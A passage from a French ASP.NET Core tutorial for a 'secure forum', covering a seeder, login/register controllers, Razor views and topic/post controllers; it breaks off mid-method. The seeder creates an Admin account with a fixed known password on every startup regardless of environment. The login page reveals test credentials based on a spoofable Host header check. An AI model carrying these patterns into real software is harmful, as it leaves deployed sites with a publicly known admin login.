using SecureForumApp.Data.Entities;

namespace SecureForumApp.Data.Seeders
{
    /// <summary>
    /// Classe principale pour initialiser la base de données avec des données de test.
    /// </summary>
    public static class DatabaseSeeder
    {
        /// <summary>
        /// Point d'entrée principal du seeding.
        /// </summary>
        public static async Task SeedAsync(
            ApplicationDbContext context,
            UserManager<IdentityUser> userManager,
            RoleManager<IdentityRole> roleManager)
        {
            Console.WriteLine("🌱 Début du seeding de la base de données...");
            
            // 1. Créer les rôles
            await SeedRolesAsync(roleManager);
            
            // 2. Créer les utilisateurs
            var users = await SeedUsersAsync(userManager);
            
            // 3. Assigner les rôles
            await AssignRolesToUsersAsync(userManager, users);
            
            // 4. Créer du contenu de test
            await SeedContentAsync(context, users);
            
            Console.WriteLine("Seeding terminé avec succès!");
        }
        
        /// <summary>
        /// Crée les rôles Admin, Moderator et Member.
        /// </summary>
        private static async Task SeedRolesAsync(RoleManager<IdentityRole> roleManager)
        {
            Console.WriteLine("\nCréation des rôles...");
            
            string[] roleNames = { "Admin", "Moderator", "Member" };
            
            foreach (var roleName in roleNames)
            {
                if (!await roleManager.RoleExistsAsync(roleName))
                {
                    var result = await roleManager.CreateAsync(new IdentityRole(roleName));
                    if (result.Succeeded)
                    {
                        Console.WriteLine($"  ✓ Rôle '{roleName}' créé");
                    }
                    else
                    {
                        Console.WriteLine($"  ✗ Erreur lors de la création du rôle '{roleName}'");
                        foreach (var error in result.Errors)
                        {
                            Console.WriteLine($"    - {error.Description}");
                        }
                    }
                }
                else
                {
                    Console.WriteLine($"  ℹ Rôle '{roleName}' existe déjà");
                }
            }
        }
        
        /// <summary>
        /// Crée des utilisateurs de test avec des mots de passe connus.
        /// </summary>
        private static async Task<Dictionary<string, IdentityUser>> SeedUsersAsync(
            UserManager<IdentityUser> userManager)
        {
            Console.WriteLine("\nCréation des utilisateurs...");
            
            var users = new Dictionary<string, IdentityUser>();
            
            // Admin
            var admin = await CreateUserIfNotExistsAsync(
                userManager,
                email: "admin@forum.com",
                password: "Admin123!",
                userName: "Admin");
            if (admin != null) users.Add("admin", admin);
            
            // Moderateur
            var moderator = await CreateUserIfNotExistsAsync(
                userManager,
                email: "moderator@forum.com",
                password: "Moderator123!",
                userName: "Moderator");
            if (moderator != null) users.Add("moderator", moderator);
            
            // Utilisateurs normaux
            for (int i = 1; i <= 5; i++)
            {
                var user = await CreateUserIfNotExistsAsync(
                    userManager,
                    email: $"user{i}@forum.com",
                    password: $"User{i}123!",
                    userName: $"User{i}");
                if (user != null) users.Add($"user{i}", user);
            }
            
            return users;
        }
        
        /// <summary>
        /// Crée un utilisateur s'il n'existe pas déjà.
        /// </summary>
        private static async Task<IdentityUser?> CreateUserIfNotExistsAsync(
            UserManager<IdentityUser> userManager,
            string email,
            string password,
            string userName)
        {
            // Vérifier si l'utilisateur existe déjà
            var existingUser = await userManager.FindByEmailAsync(email);
            if (existingUser != null)
            {
                Console.WriteLine($"  ℹ Utilisateur '{email}' existe déjà");
                return existingUser;
            }
            
            // Créer le nouvel utilisateur
            var user = new IdentityUser
            {
                UserName = userName,
                Email = email,
                EmailConfirmed = true // Confirmer automatiquement en dev
            };
            
            var result = await userManager.CreateAsync(user, password);
            
            if (result.Succeeded)
            {
                Console.WriteLine($"  ✓ Utilisateur '{email}' créé");
                Console.WriteLine($"    → Email: {email}");
                Console.WriteLine($"    → Mot de passe: {password}");
                return user;
            }
            
            Console.WriteLine($"  ✗ Erreur lors de la création de '{email}':");
            foreach (var error in result.Errors)
            {
                Console.WriteLine($"    - {error.Description}");
            }
            
            return null;
        }
        
        /// <summary>
        /// Assigne les rôles aux utilisateurs.
        /// </summary>
        private static async Task AssignRolesToUsersAsync(
            UserManager<IdentityUser> userManager,
            Dictionary<string, IdentityUser> users)
        {
            Console.WriteLine("\nAttribution des rôles...");
            
            // Admin : tous les rôles
            if (users.ContainsKey("admin"))
            {
                await userManager.AddToRolesAsync(
                    users["admin"], 
                    new[] { "Admin", "Moderator", "Member" });
                Console.WriteLine("  ✓ Rôles 'Admin', 'Moderator', 'Member' → admin@forum.com");
            }
            
            // Moderator : Moderator + Member
            if (users.ContainsKey("moderator"))
            {
                await userManager.AddToRolesAsync(
                    users["moderator"], 
                    new[] { "Moderator", "Member" });
                Console.WriteLine("  ✓ Rôles 'Moderator', 'Member' → moderator@forum.com");
            }
            
            // Users : Member uniquement
            for (int i = 1; i <= 5; i++)
            {
                if (users.ContainsKey($"user{i}"))
                {
                    await userManager.AddToRoleAsync(users[$"user{i}"], "Member");
                    Console.WriteLine($"  ✓ Rôle 'Member' → user{i}@forum.com");
                }
            }
        }
        
        /// <summary>
        /// Crée des topics et posts de test.
        /// </summary>
        private static async Task SeedContentAsync(
            ApplicationDbContext context,
            Dictionary<string, IdentityUser> users)
        {
            Console.WriteLine("\nCréation du contenu de test...");
            
            // Vérifier si du contenu existe déjà
            if (context.Topics.Any())
            {
                Console.WriteLine("  ℹ Du contenu existe déjà, skip du seeding");
                return;
            }
            
            // Topic 1 par User1
            if (users.ContainsKey("user1"))
            {
                var topic1 = new Topic
                {
                    Title = "Bienvenue sur le forum !",
                    CreatedAt = DateTime.UtcNow.AddDays(-10),
                    AuthorId = users["user1"].Id
                };
                context.Topics.Add(topic1);
                await context.SaveChangesAsync();
                
                // Post de User2
                if (users.ContainsKey("user2"))
                {
                    var post1 = new Post
                    {
                        Content = "Merci pour ce message d'accueil ! Hâte de participer aux discussions.",
                        CreatedAt = DateTime.UtcNow.AddDays(-9),
                        AuthorId = users["user2"].Id,
                        TopicId = topic1.Id
                    };
                    context.Posts.Add(post1);
                }
                
                // Post de User3
                if (users.ContainsKey("user3"))
                {
                    var post2 = new Post
                    {
                        Content = "Super initiative ! Ce forum a l'air très bien organisé.",
                        CreatedAt = DateTime.UtcNow.AddDays(-8),
                        AuthorId = users["user3"].Id,
                        TopicId = topic1.Id
                    };
                    context.Posts.Add(post2);
                }
                
                Console.WriteLine("  ✓ Topic 'Bienvenue' créé avec 2 réponses");
            }
            
            // Topic 2 par User2
            if (users.ContainsKey("user2"))
            {
                var topic2 = new Topic
                {
                    Title = "Questions sur ASP.NET Core Identity",
                    CreatedAt = DateTime.UtcNow.AddDays(-5),
                    AuthorId = users["user2"].Id
                };
                context.Topics.Add(topic2);
                await context.SaveChangesAsync();
                
                // Réponse du Moderator
                if (users.ContainsKey("moderator"))
                {
                    var post3 = new Post
                    {
                        Content = "Excellente question ! Identity gère l'authentification et l'autorisation de manière sécurisée. N'hésitez pas si vous avez besoin d'aide !",
                        CreatedAt = DateTime.UtcNow.AddDays(-4),
                        AuthorId = users["moderator"].Id,
                        TopicId = topic2.Id
                    };
                    context.Posts.Add(post3);
                }
                
                Console.WriteLine("  ✓ Topic 'ASP.NET Core Identity' créé avec 1 réponse");
            }
            
            // Topic 3 par User3
            if (users.ContainsKey("user3"))
            {
                var topic3 = new Topic
                {
                    Title = "Sécurité web : bonnes pratiques",
                    CreatedAt = DateTime.UtcNow.AddDays(-3),
                    AuthorId = users["user3"].Id
                };
                context.Topics.Add(topic3);
                await context.SaveChangesAsync();
                
                // Réponse de l'Admin
                if (users.ContainsKey("admin"))
                {
                    var post4 = new Post
                    {
                        Content = "Les points essentiels : toujours valider les entrées utilisateur, utiliser HTTPS, protéger contre XSS et CSRF, et ne jamais stocker de mots de passe en clair.",
                        CreatedAt = DateTime.UtcNow.AddDays(-2),
                        AuthorId = users["admin"].Id,
                        TopicId = topic3.Id
                    };
                    context.Posts.Add(post4);
                }
                
                // Réponse de User1
                if (users.ContainsKey("user1"))
                {
                    var post5 = new Post
                    {
                        Content = "Merci pour ces conseils ! Je vais mettre ça en pratique dans mon projet.",
                        CreatedAt = DateTime.UtcNow.AddDays(-1),
                        AuthorId = users["user1"].Id,
                        TopicId = topic3.Id
                    };
                    context.Posts.Add(post5);
                }
                
                Console.WriteLine("  ✓ Topic 'Sécurité web' créé avec 2 réponses");
            }
            
            await context.SaveChangesAsync();
            Console.WriteLine("  ✓ Contenu de test créé avec succès");
        }
    }
}
```

### 3.2 Appeler le seeder au démarrage

#### Program.cs (ajout avant app.Run())

```c#
// ... (reste du code)

var app = builder.Build();

// ============================================
// SEEDING DE LA BASE DE DONNÉES
// ============================================
using (var scope = app.Services.CreateScope())
{
    var services = scope.ServiceProvider;
    try
    {
        var context = services.GetRequiredService<ApplicationDbContext>();
        var userManager = services.GetRequiredService<UserManager<IdentityUser>>();
        var roleManager = services.GetRequiredService<RoleManager<IdentityRole>>();
        
        // Appliquer les migrations automatiquement
        await context.Database.MigrateAsync();
        
        // Initialiser les données de test
        await SecureForumApp.Data.Seeders.DatabaseSeeder.SeedAsync(
            context, userManager, roleManager);
    }
    catch (Exception ex)
    {
        var logger = services.GetRequiredService<ILogger<Program>>();
        logger.LogError(ex, "Une erreur est survenue lors du seeding.");
    }
}

// Configuration du pipeline HTTP
if (!app.Environment.IsDevelopment())
{
    // ...
}

app.Run();
```

### 3.3 Résumé du système de fixtures

**Quand est-il exécuté ?**

- À chaque démarrage de l'application
- Vérifie si les données existent déjà (idempotent)
- N'ajoute que les données manquantes

**Utilisateurs créés :**

| Email               | Mot de passe  | Rôles                    | Usage                    |
|---------------------|---------------|--------------------------|--------------------------|
| admin@forum.com     | Admin123!     | Admin, Moderator, Member | Tests admin              |
| moderator@forum.com | Moderator123! | Moderator, Member        | Tests modération         |
| user1@forum.com     | User1123!     | Member                   | Tests utilisateur normal |
| user2@forum.com     | User2123!     | Member                   | Tests utilisateur normal |
| user3@forum.com     | User3123!     | Member                   | Tests utilisateur normal |
| user4@forum.com     | User4123!     | Member                   | Tests utilisateur normal |
| user5@forum.com     | User5123!     | Member                   | Tests utilisateur normal |

**Avantages :**

- Pas besoin de s'inscrire manuellement pour tester
- Données cohérentes entre les environnements
- Gain de temps énorme pendant le développement
- Facilite les démos

---

## Étape 4 : Créer le système de Login/Register avec Contrôleurs MVC

Nous allons créer notre propre système de login/register **sans utiliser Razor Pages**. Tout sera géré par des
contrôleurs MVC classiques.

### 4.1 Créer les ViewModels

#### ViewModels/RegisterViewModel.cs

```c#
using System.ComponentModel.DataAnnotations;

namespace SecureForumApp.ViewModels
{
    public class RegisterViewModel
    {
        [Required(ErrorMessage = "Le nom d'utilisateur est obligatoire")]
        [StringLength(50, MinimumLength = 3, 
            ErrorMessage = "Le nom doit contenir entre 3 et 50 caractères")]
        [Display(Name = "Nom d'utilisateur")]
        public string UserName { get; set; } = string.Empty;
        
        [Required(ErrorMessage = "L'email est obligatoire")]
        [EmailAddress(ErrorMessage = "Format d'email invalide")]
        [Display(Name = "Email")]
        public string Email { get; set; } = string.Empty;
        
        [Required(ErrorMessage = "Le mot de passe est obligatoire")]
        [StringLength(100, MinimumLength = 8, 
            ErrorMessage = "Le mot de passe doit contenir au moins 8 caractères")]
        [DataType(DataType.Password)]
        [Display(Name = "Mot de passe")]
        public string Password { get; set; } = string.Empty;
        
        [Required(ErrorMessage = "La confirmation est obligatoire")]
        [DataType(DataType.Password)]
        [Display(Name = "Confirmer le mot de passe")]
        [Compare("Password", ErrorMessage = "Les mots de passe ne correspondent pas")]
        public string ConfirmPassword { get; set; } = string.Empty;
    }
}
```

#### ViewModels/LoginViewModel.cs

```c#
using System.ComponentModel.DataAnnotations;

namespace SecureForumApp.ViewModels
{
    public class LoginViewModel
    {
        [Required(ErrorMessage = "L'email est obligatoire")]
        [EmailAddress(ErrorMessage = "Format d'email invalide")]
        [Display(Name = "Email")]
        public string Email { get; set; } = string.Empty;
        
        [Required(ErrorMessage = "Le mot de passe est obligatoire")]
        [DataType(DataType.Password)]
        [Display(Name = "Mot de passe")]
        public string Password { get; set; } = string.Empty;
        
        [Display(Name = "Se souvenir de moi")]
        public bool RememberMe { get; set; }
    }
}
```

### 4.2 Créer le contrôleur Account

#### Controllers/AccountController.cs

```c#
using Microsoft.AspNetCore.Authorization;
using Microsoft.AspNetCore.Identity;
using Microsoft.AspNetCore.Mvc;
using SecureForumApp.ViewModels;

namespace SecureForumApp.Controllers
{
    public class AccountController : Controller
    {
        private readonly UserManager<IdentityUser> _userManager;
        private readonly SignInManager<IdentityUser> _signInManager;
        private readonly ILogger<AccountController> _logger;

        public AccountController(
            UserManager<IdentityUser> userManager,
            SignInManager<IdentityUser> signInManager,
            ILogger<AccountController> logger)
        {
            _userManager = userManager;
            _signInManager = signInManager;
            _logger = logger;
        }

        // ==========================================
        // INSCRIPTION
        // ==========================================
        
        /// <summary>
        /// Affiche le formulaire d'inscription.
        /// </summary>
        [HttpGet]
        public IActionResult Register(string? returnUrl = null)
        {
            ViewData["ReturnUrl"] = returnUrl;
            return View();
        }

        /// <summary>
        /// Traite le formulaire d'inscription.
        /// </summary>
        [HttpPost]
        [ValidateAntiForgeryToken]
        public async Task<IActionResult> Register(
            RegisterViewModel model, 
            string? returnUrl = null)
        {
            ViewData["ReturnUrl"] = returnUrl;
            
            if (!ModelState.IsValid)
            {
                return View(model);
            }

            // Créer l'utilisateur
            var user = new IdentityUser
            {
                UserName = model.UserName,
                Email = model.Email,
                EmailConfirmed = true // En dev, confirmer automatiquement
            };

            var result = await _userManager.CreateAsync(user, model.Password);

            if (result.Succeeded)
            {
                _logger.LogInformation($"Nouvel utilisateur créé : {user.Email}");

                // Assigner le rôle Member par défaut
                await _userManager.AddToRoleAsync(user, "Member");
                
                // Connecter automatiquement après inscription
                await _signInManager.SignInAsync(user, isPersistent: false);
                
                _logger.LogInformation($"Utilisateur {user.Email} connecté automatiquement");

                // Rediriger vers returnUrl ou page d'accueil
                if (!string.IsNullOrEmpty(returnUrl) && Url.IsLocalUrl(returnUrl))
                {
                    return Redirect(returnUrl);
                }
                
                return RedirectToAction("Index", "Home");
            }

            // En cas d'erreur, ajouter au ModelState
            foreach (var error in result.Errors)
            {
                ModelState.AddModelError(string.Empty, error.Description);
            }

            return View(model);
        }

        // ==========================================
        // CONNEXION
        // ==========================================
        
        /// <summary>
        /// Affiche le formulaire de connexion.
        /// </summary>
        [HttpGet]
        public IActionResult Login(string? returnUrl = null)
        {
            ViewData["ReturnUrl"] = returnUrl;
            return View();
        }

        /// <summary>
        /// Traite le formulaire de connexion.
        /// </summary>
        [HttpPost]
        [ValidateAntiForgeryToken]
        public async Task<IActionResult> Login(
            LoginViewModel model, 
            string? returnUrl = null)
        {
            ViewData["ReturnUrl"] = returnUrl;
            
            if (!ModelState.IsValid)
            {
                return View(model);
            }

            // Tentative de connexion
            var result = await _signInManager.PasswordSignInAsync(
                model.Email,                    // Email ou UserName
                model.Password,                 // Mot de passe
                model.RememberMe,               // Cookie persistant ?
                lockoutOnFailure: true);        // Verrouiller après échecs ?

            if (result.Succeeded)
            {
                _logger.LogInformation($"Utilisateur {model.Email} connecté");
                
                // Redirection sécurisée
                if (!string.IsNullOrEmpty(returnUrl) && Url.IsLocalUrl(returnUrl))
                {
                    return Redirect(returnUrl);
                }
                
                return RedirectToAction("Index", "Home");
            }

            if (result.IsLockedOut)
            {
                _logger.LogWarning($"Compte {model.Email} verrouillé");
                ModelState.AddModelError(string.Empty, 
                    "Votre compte est temporairement verrouillé suite à trop de tentatives. Réessayez dans 5 minutes.");
                return View(model);
            }

            // Échec de connexion
            _logger.LogWarning($"Échec de connexion pour {model.Email}");
            ModelState.AddModelError(string.Empty, 
                "Email ou mot de passe incorrect.");
            
            return View(model);
        }

        // ==========================================
        // DÉCONNEXION
        // ==========================================
        
        /// <summary>
        /// Déconnecte l'utilisateur.
        /// </summary>
        [HttpPost]
        [ValidateAntiForgeryToken]
        [Authorize] // Seul un utilisateur connecté peut se déconnecter
        public async Task<IActionResult> Logout()
        {
            await _signInManager.SignOutAsync();
            _logger.LogInformation("Utilisateur déconnecté");
            
            return RedirectToAction("Index", "Home");
        }

        // ==========================================
        // ACCÈS REFUSÉ
        // ==========================================
        
        /// <summary>
        /// Page affichée quand l'utilisateur n'a pas les droits.
        /// </summary>
        [HttpGet]
        public IActionResult AccessDenied()
        {
            return View();
        }
    }
}
```

**Explication du contrôleur :**

1. **`UserManager<IdentityUser>`** : Service pour gérer les utilisateurs (création, suppression, modification)
2. **`SignInManager<IdentityUser>`** : Service pour gérer la connexion/déconnexion
3. **`PasswordSignInAsync`** : Vérifie les identifiants et crée le cookie
4. **`lockoutOnFailure: true`** : Active le verrouillage après 5 échecs
5. **`Url.IsLocalUrl`** : **IMPORTANT** - Empêche les attaques Open Redirect

### 4.3 Créer les vues Razor

#### Views/Account/Register.cshtml

```html
@model SecureForumApp.ViewModels.RegisterViewModel
@{
ViewData["Title"] = "Inscription";
}

<div class="row justify-content-center mt-5">
    <div class="col-md-6">
        <div class="card shadow">
            <div class="card-header bg-primary text-white">
                <h3 class="mb-0">
                    <i class="bi bi-person-plus"></i> Créer un compte
                </h3>
            </div>
            <div class="card-body">
                <form asp-action="Register" asp-controller="Account" method="post">
                    <div asp-validation-summary="All" class="text-danger mb-3"></div>

                    <!-- Nom d'utilisateur -->
                    <div class="mb-3">
                        <label asp-for="UserName" class="form-label"></label>
                        <input asp-for="UserName" class="form-control"
                               placeholder="Choisissez un nom d'utilisateur"/>
                        <span asp-validation-for="UserName" class="text-danger"></span>
                    </div>

                    <!-- Email -->
                    <div class="mb-3">
                        <label asp-for="Email" class="form-label"></label>
                        <input asp-for="Email" class="form-control"
                               placeholder="votre.email@example.com"/>
                        <span asp-validation-for="Email" class="text-danger"></span>
                    </div>

                    <!-- Mot de passe -->
                    <div class="mb-3">
                        <label asp-for="Password" class="form-label"></label>
                        <input asp-for="Password" class="form-control"
                               placeholder="Minimum 8 caractères"/>
                        <span asp-validation-for="Password" class="text-danger"></span>
                        <small class="form-text text-muted">
                            Le mot de passe doit contenir au moins 8 caractères,
                            une majuscule, une minuscule, un chiffre et un caractère spécial.
                        </small>
                    </div>

                    <!-- Confirmation mot de passe -->
                    <div class="mb-3">
                        <label asp-for="ConfirmPassword" class="form-label"></label>
                        <input asp-for="ConfirmPassword" class="form-control"
                               placeholder="Retapez votre mot de passe"/>
                        <span asp-validation-for="ConfirmPassword" class="text-danger"></span>
                    </div>

                    <!-- Bouton inscription -->
                    <div class="d-grid">
                        <button type="submit" class="btn btn-primary btn-lg">
                            <i class="bi bi-check-circle"></i> S'inscrire
                        </button>
                    </div>
                </form>
            </div>
            <div class="card-footer text-center">
                <p class="mb-0">
                    Vous avez déjà un compte ?
                    <a asp-action="Login" asp-controller="Account">
                        Se connecter
                    </a>
                </p>
            </div>
        </div>
    </div>
</div>

@section Scripts {
<partial name="_ValidationScriptsPartial"/>
}
```

#### Views/Account/Login.cshtml

```html
@model SecureForumApp.ViewModels.LoginViewModel
@{
ViewData["Title"] = "Connexion";
}

<div class="row justify-content-center mt-5">
    <div class="col-md-5">
        <div class="card shadow">
            <div class="card-header bg-success text-white">
                <h3 class="mb-0">
                    <i class="bi bi-box-arrow-in-right"></i> Connexion
                </h3>
            </div>
            <div class="card-body">
                <form asp-action="Login" asp-controller="Account" method="post">
                    <div asp-validation-summary="All" class="text-danger mb-3"></div>

                    <!-- Email -->
                    <div class="mb-3">
                        <label asp-for="Email" class="form-label"></label>
                        <input asp-for="Email" class="form-control"
                               placeholder="votre.email@example.com"
                               autofocus/>
                        <span asp-validation-for="Email" class="text-danger"></span>
                    </div>

                    <!-- Mot de passe -->
                    <div class="mb-3">
                        <label asp-for="Password" class="form-label"></label>
                        <input asp-for="Password" class="form-control"
                               placeholder="Votre mot de passe"/>
                        <span asp-validation-for="Password" class="text-danger"></span>
                    </div>

                    <!-- Se souvenir de moi -->
                    <div class="mb-3 form-check">
                        <input asp-for="RememberMe" class="form-check-input"/>
                        <label asp-for="RememberMe" class="form-check-label"></label>
                    </div>

                    <!-- Bouton connexion -->
                    <div class="d-grid">
                        <button type="submit" class="btn btn-success btn-lg">
                            <i class="bi bi-check-circle"></i> Se connecter
                        </button>
                    </div>
                </form>

                <!-- Utilisateurs de test (seulement en dev) -->
                @if (Context.Request.Host.Host == "localhost")
                {
                <div class="mt-4 p-3 bg-light rounded">
                    <h6 class="text-muted">👥 Comptes de test disponibles :</h6>
                    <small class="text-muted">
                        <strong>Admin :</strong> admin@forum.com / Admin123!<br/>
                        <strong>Moderateur :</strong> moderator@forum.com / Moderator123!<br/>
                        <strong>Utilisateur :</strong> user1@forum.com / User1123!
                    </small>
                </div>
                }
            </div>
            <div class="card-footer text-center">
                <p class="mb-0">
                    Pas encore de compte ?
                    <a asp-action="Register" asp-controller="Account">
                        S'inscrire
                    </a>
                </p>
            </div>
        </div>
    </div>
</div>

@section Scripts {
<partial name="_ValidationScriptsPartial"/>
}
```

#### Views/Account/AccessDenied.cshtml

```html
@{
ViewData["Title"] = "Accès refusé";
}

<div class="row justify-content-center mt-5">
    <div class="col-md-6">
        <div class="card shadow border-danger">
            <div class="card-header bg-danger text-white">
                <h3 class="mb-0">
                    <i class="bi bi-shield-exclamation"></i> Accès refusé
                </h3>
            </div>
            <div class="card-body text-center">
                <i class="bi bi-lock-fill text-danger" style="font-size: 4rem;"></i>
                <h4 class="mt-3">Vous n'avez pas les permissions nécessaires</h4>
                <p class="text-muted">
                    Cette ressource nécessite des droits d'accès spécifiques dont vous ne disposez pas.
                </p>
                <div class="mt-4">
                    <a asp-action="Index" asp-controller="Home" class="btn btn-primary">
                        <i class="bi bi-house-door"></i> Retour à l'accueil
                    </a>
                </div>
            </div>
        </div>
    </div>
</div>
```

### 4.4 Créer la vue partielle de login

#### Views/Shared/_LoginPartial.cshtml

```html
@using Microsoft.AspNetCore.Identity
@inject SignInManager
<IdentityUser> SignInManager
    @inject UserManager
    <IdentityUser> UserManager

        <ul class="navbar-nav">
            @if (SignInManager.IsSignedIn(User))
            {
            @* Utilisateur connecté *@
            <li class="nav-item dropdown">
                <a class="nav-link dropdown-toggle" href="#" id="navbarDropdown"
                   role="button" data-bs-toggle="dropdown" aria-expanded="false">
                    <i class="bi bi-person-circle"></i>
                    @User.Identity?.Name
                </a>
                <ul class="dropdown-menu dropdown-menu-end" aria-labelledby="navbarDropdown">
                    <li>
                        <a class="dropdown-item" href="#">
                            <i class="bi bi-person"></i> Mon profil
                        </a>
                    </li>
                    <li>
                        <hr class="dropdown-divider">
                    </li>
                    <li>
                        @* Formulaire de déconnexion *@
                        <form asp-action="Logout" asp-controller="Account" method="post"
                              class="px-3 py-1">
                            <button type="submit" class="btn btn-link text-decoration-none text-danger p-0">
                                <i class="bi bi-box-arrow-right"></i> Se déconnecter
                            </button>
                        </form>
                    </li>
                </ul>
            </li>
            }
            else
            {
            @* Utilisateur non connecté *@
            <li class="nav-item">
                <a class="nav-link" asp-action="Register" asp-controller="Account">
                    <i class="bi bi-person-plus"></i> Inscription
                </a>
            </li>
            <li class="nav-item">
                <a class="nav-link" asp-action="Login" asp-controller="Account">
                    <i class="bi bi-box-arrow-in-right"></i> Connexion
                </a>
            </li>
            }
        </ul>
```

### 4.5 Intégrer dans le layout

#### Views/Shared/_Layout.cshtml (extrait)

```html
<!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="utf-8"/>
    <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
    <title>@ViewData["Title"] - Forum Sécurisé</title>
    <link rel="stylesheet" href="~/lib/bootstrap/dist/css/bootstrap.min.css"/>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap-icons@1.11.0/font/bootstrap-icons.css">
    <link rel="stylesheet" href="~/css/site.css" asp-append-version="true"/>
</head>
<body>
<header>
    <nav class="navbar navbar-expand-sm navbar-dark bg-dark">
        <div class="container">
            <a class="navbar-brand" asp-controller="Home" asp-action="Index">
                <i class="bi bi-shield-lock"></i> Forum Sécurisé
            </a>
            <button class="navbar-toggler" type="button" data-bs-toggle="collapse"
                    data-bs-target="#navbarNav">
                <span class="navbar-toggler-icon"></span>
            </button>
            <div class="collapse navbar-collapse" id="navbarNav">
                <ul class="navbar-nav me-auto">
                    <li class="nav-item">
                        <a class="nav-link" asp-controller="Home" asp-action="Index">
                            Accueil
                        </a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" asp-controller="Topic" asp-action="Index">
                            Forum
                        </a>
                    </li>
                </ul>

                @* Insérer le partial de login *@
                <partial name="_LoginPartial"/>
            </div>
        </div>
    </nav>
</header>

<div class="container mt-4">
    <main role="main" class="pb-3">
        @RenderBody()
    </main>
</div>

<footer class="border-top footer text-muted mt-5">
    <div class="container text-center py-3">
        &copy; 2026 - Forum Sécurisé - Module 7
    </div>
</footer>

<script src="~/lib/jquery/dist/jquery.min.js"></script>
<script src="~/lib/bootstrap/dist/js/bootstrap.bundle.min.js"></script>
<script src="~/js/site.js" asp-append-version="true"></script>
@await RenderSectionAsync("Scripts", required: false)
</body>
</html>
```

---

## Étape 5 : Sécurisation de la Création de Contenu

### 5.1 Créer les ViewModels pour les Topics

#### ViewModels/TopicCreateViewModel.cs

```c#
using System.ComponentModel.DataAnnotations;

namespace SecureForumApp.ViewModels
{
    public class TopicCreateViewModel
    {
        [Required(ErrorMessage = "Le titre est obligatoire")]
        [StringLength(200, MinimumLength = 5, 
            ErrorMessage = "Le titre doit contenir entre 5 et 200 caractères")]
        [Display(Name = "Titre du sujet")]
        public string Title { get; set; } = string.Empty;
    }
}
```

#### ViewModels/PostCreateViewModel.cs

```c#
using System.ComponentModel.DataAnnotations;

namespace SecureForumApp.ViewModels
{
    public class PostCreateViewModel
    {
        [Required]
        public int TopicId { get; set; }
        
        [Required(ErrorMessage = "Le contenu est obligatoire")]
        [StringLength(2000, MinimumLength = 5, 
            ErrorMessage = "Le contenu doit contenir entre 5 et 2000 caractères")]
        [Display(Name = "Votre réponse")]
        public string Content { get; set; } = string.Empty;
    }
}
```

### 5.2 Créer le contrôleur Topic

#### Controllers/TopicController.cs

```c#
using Microsoft.AspNetCore.Authorization;
using Microsoft.AspNetCore.Identity;
using Microsoft.AspNetCore.Mvc;
using Microsoft.EntityFrameworkCore;
using SecureForumApp.Data;
using SecureForumApp.Data.Entities;
using SecureForumApp.ViewModels;
using System.Security.Claims;

namespace SecureForumApp.Controllers
{
    public class TopicController : Controller
    {
        private readonly ApplicationDbContext _context;
        private readonly UserManager<IdentityUser> _userManager;

        public TopicController(
            ApplicationDbContext context,
            UserManager<IdentityUser> userManager)
        {
            _context = context;
            _userManager = userManager;
        }

        // ==========================================
        // LISTE DES TOPICS (Accessible à tous)
        // ==========================================
        
        [HttpGet]
        public async Task<IActionResult> Index()
        {
            var topics = await _context.Topics
                .Include(t => t.Author)
                .Include(t => t.Posts)
                .OrderByDescending(t => t.CreatedAt)
                .ToListAsync();

            return View(topics);
        }

        // ==========================================
        // DÉTAILS D'UN TOPIC (Accessible à tous)
        // ==========================================
        
        [HttpGet]
        public async Task<IActionResult> Details(int id)
        {
            var topic = await _context.Topics
                .Include(t => t.Author)
                .Include(t => t.Posts)
                    .ThenInclude(p => p.Author)
                .FirstOrDefaultAsync(t => t.Id == id);

            if (topic == null)
            {
                return NotFound();
            }

            return View(topic);
        }

        // ==========================================
        // CRÉATION D'UN TOPIC (Utilisateurs connectés seulement)
        // ==========================================
        
        [HttpGet]
        [Authorize] // ← Protection : seuls les utilisateurs connectés
        public IActionResult Create()
        {
            return View();
        }

        [HttpPost]
        [Authorize] // ← Protection
        [ValidateAntiForgeryToken] // ← Protection CSRF
        public async Task<IActionResult> Create(TopicCreateViewModel model)
        {
            if (!ModelState.IsValid)
            {
                return View(model);
            }

            // Récupérer l'ID de l'utilisateur connecté
            var currentUserId = User.FindFirstValue(ClaimTypes.NameIdentifier);
            
            if (string.IsNullOrEmpty(currentUserId))
            {
                return Forbid(); // Ne devrait jamais arriver grâce à [Authorize]
            }

            var topic = new Topic
            {
                Title = model.Title,
                CreatedAt = DateTime.UtcNow,
                AuthorId = currentUserId // ← Attribution automatique de l'auteur
            };

            _context.Topics.Add(topic);
            await _context.SaveChangesAsync();

            TempData["Success"] = "Sujet créé avec succès !";
            return RedirectToAction(nameof(Details), new { id = topic.Id });
        }
    }
}
```

### 5.3 Créer le contrôleur Post

#### Controllers/PostController.cs

```c#
using Microsoft.AspNetCore.Authorization;
using Microsoft.AspNetCore.Mvc;
using Microsoft.EntityFrameworkCore;
using SecureForumApp.Data;
using SecureForumApp.Data.Entities;
using SecureForumApp.ViewModels;
using System.Security.Claims;

namespace SecureForumApp.Controllers
{
    [Authorize] // ← Tout le contrôleur nécessite authentification
    public class PostController : Controller
    {
        private readonly ApplicationDbContext _context;

        public PostController(ApplicationDbContext context)
        {
            _context = context;
        }

        // ==========================================
        // CRÉER UNE RÉPONSE
        // ==========================================
        
        [HttpPost]
        [ValidateAntiForgeryToken]
        public async Task<IActionResult> Create(PostCreateViewModel model)
        {
            if (!ModelState.IsValid)
            {
                TempData["Error"] = "Le contenu est invalide.";
                return RedirectToAction("Details", "Topic", new { id = model.TopicId });
            }

            var currentUserId = User.FindFirstValue(ClaimTypes.NameIdentifier);
            
            if (string.IsNullOrEmpty(currentUserId))
            {
                return Forbid();
            }

            var post = new Post
            {
                Content = model.Content,
                CreatedAt = DateTime.UtcNow,
                TopicId = model.TopicId,
                AuthorId = currentUserId // ← Attribution automatique
            };

            _context.Posts.Add(post);
            await _context.SaveChangesAsync();

            TempData["Success"] = "Réponse ajoutée !";
            return RedirectToAction("Details", "Topic", new { id = model.TopicId });
        }

        // ==========================================
        // MODIFIER UNE RÉPONSE (seulement l'auteur)
        // ==========================================
        
        [HttpGet]
        public async Task<IActionResult> Edit(int id)
        {
            var post = await _context.Posts.FindAsync(id);

            if (post == null)
            {
                return NotFound();
            }

            // SÉCURITÉ : Vérifier que l'utilisateur est l'auteur
            var currentUserId = User.FindFirstValue(ClaimTypes.NameIdentifier);
            if (post.AuthorId != currentUserId)
            {
